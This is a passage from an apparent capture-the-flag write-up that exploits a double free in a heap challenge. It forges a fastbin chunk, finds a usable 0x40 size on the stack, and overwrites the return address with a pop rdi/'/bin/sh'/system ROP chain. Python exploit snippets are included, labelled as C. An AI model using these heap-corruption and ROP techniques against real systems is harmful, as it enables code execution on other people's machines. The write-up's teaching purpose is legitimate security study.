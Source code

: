``` c
    p.sendline('y')
    p.sendline('n')
```

Now that we have our double free, what can we do with it? We can first allocate a new sentence of size 56, and we'd get back the `sentence_b` chunk. We'd put a fake heap chunk (in particular a fake `fwd` pointer) in this sentence, and since this heap chunk is still in the free list (because we created that cycle), we can thus control the next chunk in the free list! We can make the fake chunk with the function below:

``` c
def make_fake_chunk(addr):
    # set the fwd pointer of the chunk to the address we want
    fake_chunk = p64(addr)
    index_sentence(fake_chunk.ljust(56))
```

The next question is what address we pass to it. We can't just make our fake chunk anywhere, because glibc checks to make sure the size of the chunk matches up with the fastbin it's in. In our case, our chunk is 64 bytes, which is 0x40, so our index is 2. We can thus only create a chunk in a location where this condition will be satisfied, meaning we need to allocate our chunk in a place where the size is between 0x40 and 0x4F inclusive (The index is calculated with `(size >> 4) - 2)`, which is why this works). My original idea was to start indexing a string, but when asked for the size of a string, put a long invalid string that ends with the qword 0x40. Then we allocate our chunk there (which is easy because we have a stack leak), and then we can overwrite the return address. This almost worked, but if you look in the `index` function you'll see there's a `puts` between `read_num` and `malloc`, which modifies the stack and removes the 0x40 we put on it.

At this point I decided to just dump the stack and see if there was already a 0x40 I could use on it. After running `telescope $rsp 20` in pwndbg, I saw a bunch of code segment addresses that started with the byte 0x40 very close to the return address of the function. We could thus use this as the size of our fake heap chunk. We use ROPGadget to find a `pop rdi; ret` gadget at 0x400e23, and we use that with the address of '/bin/sh' and `system` in the libc (calculated with the libc leak) to spawn a shell. The code for this is below, and you can find the full exploit at the bottom of this post.

``` c
pop_rdi_ret = 0x400e23

def allocate_fake_chunk(binsh_addr, system_addr):
    # allocate twice to get our fake chunk
    index_sentence('A'*56)
    index_sentence('B'*56)

    # overwrite the return address
    buf = 'A'*30
    buf += p64(pop_rdi_ret)
    buf += p64(binsh_addr)
    buf += p64(system_addr)
    buf = buf.ljust(56, 'C')

    index_sentence(buf)
```
